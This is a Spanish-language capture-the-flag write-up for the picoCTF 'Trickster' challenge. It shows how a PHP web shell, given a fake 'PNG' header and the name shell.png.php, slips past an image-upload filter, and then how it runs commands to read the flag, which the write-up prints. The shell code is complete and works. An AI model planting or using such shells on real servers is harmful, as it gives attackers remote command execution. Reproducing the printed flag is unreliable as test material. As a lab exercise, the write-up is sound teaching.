

# Trickster


## Descripción
I found a web app that can help process images: PNG images only!  
Additional details will be available after launching your challenge instance.

## Resolución
Lanzamos la instancia y entramos en la página web:


Antes de comenzar, buscaremos los archivos robots.txt y .htaccess. No podemos acceder a .htaccess, pero sí a robots.txt:


Vemos que hay un archivo llamado instructions.txt y una carpeta llamada /uploads/. Entramos en instructions.txt:


Con esto vemos los filtros que se aplican a la subida de archivos:
- Que contenga .png en el nombre
- Que los primeros bytes sean 50 4E 47

Con lo cual, podemos adaptar una web shell para que supere estas condiciones.  Tras haber probado varias, la única que ha funcionado es la menos compleja de todas, de [Joshua Wright](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985):

```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

Al poner 'PNG', se cumplirá la segunda condición (es la cabecera de todos los archivos .png, no es necesario editar hexadecimalmente la cabecera del archivo, aunque se conseguiría el mismo resultado) y, al guardar el archivo con el nombre 'shell.png.php' superaremos la primera.

Subimos el archivo:


Y lo buscamos dentro de la carpeta '/uploads/' que encontramos en robots.txt (http://atlas.picoctf.net:64982/uploads/shell.png.php).
Ahora podemos buscar la flag, comenzaremos por el directorio /var/www/html, que es la carpeta de la página web, ahí encontraremos un archivo llamado 'GNTDOMBWGIZDE.txt'.
Lo abriremos con el siguiente comando:

```bash
cat /var/www/html/GNTDOMBWGIZDE.txt
```


Obteniendo así la flag: 'picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_3f706222}'.